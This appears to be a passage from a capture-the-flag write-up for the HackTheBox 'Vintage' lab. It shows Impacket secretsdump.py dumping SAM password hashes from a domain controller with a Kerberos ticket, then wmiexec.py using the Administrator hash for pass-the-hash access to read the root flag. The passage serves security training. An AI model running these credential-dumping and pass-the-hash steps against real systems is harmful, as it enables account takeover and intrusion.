 ```console
$ export KRB5CCNAME=L.BIANCHI_ADM@cifs_dc01.vintage.htb@VINTAGE.HTB.ccache
$ secretsdump.py -k dc01.vintage.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xb632ebd8c7df30094b6cea89cdf372be
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e41bb21e027286b2e6fd41de81bce8db:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
<SNIP>

$ wmiexec.py -k -no-pass vintage.htb/L.BIANCHI_ADM@dc01.vintage.htb -hashes :e41bb21e027286b2e6fd41de81bce8db
C:\> type C:\Users\Administrator\Desktop\root.txt
```